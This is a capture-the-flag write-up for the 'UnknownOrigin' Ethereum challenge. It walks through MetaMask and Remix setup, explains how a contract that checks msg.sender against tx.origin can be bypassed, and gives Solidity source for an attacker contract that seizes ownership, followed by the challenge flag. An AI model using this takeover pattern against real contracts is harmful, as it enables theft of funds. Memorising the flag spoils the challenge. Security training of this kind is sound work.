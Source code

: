 # Writeup: UnknownOrigin

## Challenge Description

> It's not always about where you're going, sometimes it's about where you're coming from. 

## Setup + Solution 

This most difficult part of the challenge was the setup of the environment, so in this writeup I'll be going over the connection to MetaMask & the Remix IDE. The actual exploitation is (in my opinion) much easier.  


## Setup
### Setting up MetaMask

In order to connect to the challenge network, you'll have to add a new network to [Metamask](https://metamask.io/). The challenge help section has a detailed instruction on how to connect MetaMask to the network. I'll also list it below:

```
To start playing the challenges you will need the MetaMask browser extension.
Once you have MetaMask you will need to connect to the network, create an account and get some Ether.
MetaMask -> (Icon top right) -> Settings -> Networks -> Add Network:
Network Name: "CTF Network" (Can be whatever you like)
New RPC URL: http(s)://{SERVER}:8545
Chain ID: 1337
MetaMask -> (Icon top right) -> Create Account
You can claim Ether one time per account on the "Register" page. Copy the public key of your account from MetaMask to the text field and click "Get Ether".
```
__Note: When adding the network, MetaMask could tell you that `This URL is currently used by the localhost network.` or `This Chain ID is currently used by the localhost network.` You can enter the RPC URL as `http://localhost:8545/` and ignore the Chain ID. As long as the network can still be created by clicking `Save`, you're all good.__

To verify that you're connected to the network, check that the NetMask extension shows a green light next to your account with the text `Connected`.

![Metamask Connected](https://raw.githubusercontent.com/edcod3/ctf-writeups/master/CyberSecurityRumble/eth/UnknownOrigin/metamask_connected.png "Metamask Connected")

Additionally, you can check in the browser console of the page by entering `player`.

```js
> player
'{YOUR_ETH_ADDRESS}'
```

Next, you can add the ETH to your account by following the above instructions from the help section.

Now you should see that 10 ETH has been added to your account.

![Challenge Registration](https://raw.githubusercontent.com/edcod3/ctf-writeups/master/CyberSecurityRumble/eth/UnknownOrigin/challenge_register.png "Challenge Registration")

Now we can start with the challenge!

### The challenge 

After creating the instance & confirming the level creation of MetaMask, we can have a look at the contract.

`UnknownOrigin.sol`
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract UnknownOrigin {
    address public owner;

    constructor() public {
          owner = msg.sender;
    }
      
    modifier onlyOwned () {
          require(msg.sender != tx.origin);
          _;
    }

    function updateOwner (address _newOwner) public onlyOwned {
          owner = _newOwner;
    }
}
```

As stated on the challenge page, our goal is to `Claim ownership of the contract to win.` \
We can see that during the creation of the contract, the owner is set to the contract or person that called the contract. \
If we enter `await contract.owner()` we can see current owner of the contract. 

```js 
> await contract.owner();
'{CURRENT_OWNER_ADDRESS}'
```

If we compare the owner address to our address, we can see that they differ, so our goal is to make us the owner of the contract (as stated in the challenge prompt). 
\
\
How can we set the owner? Conveniently, the contract has a `updateOwner` function that sets the owner to whatever address we specify. \
If we try to call the `updateOwner` function in the browser console, we will get a bunch of error messages. 

```js
> await contract.updateOwner(player);
'Error in RPC response:,Internal JSON-RPC error.'
...
```

This is because we didn't satisfy the modifier `onlyOwned`, which is a prerequisite check to make sure that "only" the owner can call the `updateOwner` function. The modifier checks if the caller of the contract (`msg.sender`) isn't equal to the origin of the transaction (`tx.origin`). \
So how can we bypass this check & call `updateOwner`? For this we'll have to figure out what the difference is between `msg.sender` & `tx.origin`. \
When googling for the difference between the two, I stumbled upon this [writeup](https://medium.com/@nicolezhu/ethernaut-lvl-4-walkthrough-how-to-abuse-tx-origin-msg-sender-ef37d6751c8) for the Ethernaut (Level 4) challenge. This challenge basically identical to our challenge & I advise you to read the whole writeup (it isn't very long).\
\
But in essence we can exploit the following: 
- `tx.origin` can only be a (user) wallet address and __not__ a contract address.
- `msg.sender` can be a (user) wallet address and/or a contract address.

So our exploit plan will be as follows.
1. Create a new contract which calls the `UnkownOrigin` address
2. Call the `updateOwner` function in our (attacker) contract with our wallet address.

Thus `tx.origin` will be set to our wallet address and `msg.sender` will be set to our (attacker) contract, bypassing the check in the target (`UnknownOrigin`) contract.

### Creating & Deploying a malicious contract

I'll be using [Remix](http://remix.ethereum.org/) to create & deploy our malicious contract.

Let's first setup our workspace in Remix.

Remix will create some template contracts (in the `./contracts/` directory). These can either be ingored or deleted, whatever floats your boat. 

Now we can create our .sol files. First, create a `UnknownOrigin.sol` file in the contracts directory and copy/paste the challenge code:

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract UnknownOrigin {
    address public owner;

    constructor() public {
          owner = msg.sender;
    }
      
    modifier onlyOwned () {
          require(msg.sender != tx.origin);
          _;
    }

    function updateOwner (address _newOwner) public onlyOwned {
          owner = _newOwner;
    }
}
```
Now we can create our malicious contract.

As detailed before, we want to call the `UnknownOrigin` contract from our contract, so we will have to import it into our script. Additionally, we will create a function which calls the `updateOwner` function in the target contract.

Knowing this, I created the malicious contract `AttackerOrigin`:

`AttackerOrigin.sol`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./UnknownOrigin.sol";

contract AttackerOrigin {
    UnknownOrigin public unknownOrigin = UnknownOrigin(YOUR_CHALLENGE_CONTRACT_ADDRESS);

    function attackOwner(address _owner) public {
        unknownOrigin.updateOwner(_owner);
    }

}
```
The Remix workspace should now look similar to this:

![Remix Workspace](https://raw.githubusercontent.com/edcod3/ctf-writeups/master/CyberSecurityRumble/eth/UnknownOrigin/remix_workspace.png "Remix Workspace")


Now that we created our malicious contract, let's deploy it.

Before deploying we will have to compile it, which can be done by navigating to the Solidity compiler in the sidebar & clicking Compile. \
_Make sure you have the malicious .sol file selected in the Remix file explorer._

Now we can deploy the contract! \
Navigate to the deploy section in the sidebar & select `Injected Web3` as your environment (make sure that metamask is connected to the Remix Site). Next, make sure the address & contract is correct and can press `Deploy`. \
The contract has been deployed & it should be visible in the `Deployed Contracts` dropdown menu. 
We can now change the owner of the `UnknownOrigin` contract by pasting our (user) address into the `_owner` field & pressing the `attackOwner` button. 

The transaction should successfully be mined & executed, making us the owner of the target contract!
![Deploy Contract](https://raw.githubusercontent.com/edcod3/ctf-writeups/master/CyberSecurityRumble/eth/UnknownOrigin/remix_contract_deploy.png "Deploy Contract")

We can double-check this by going to the challenge page & checking the owner of the contract with our user address.

```js
> await contract.owner() == player
true
```

We can now submit the instance, sign the message & get the flag.


## Flag: CSR{0r1gn4l_M5g_123_x}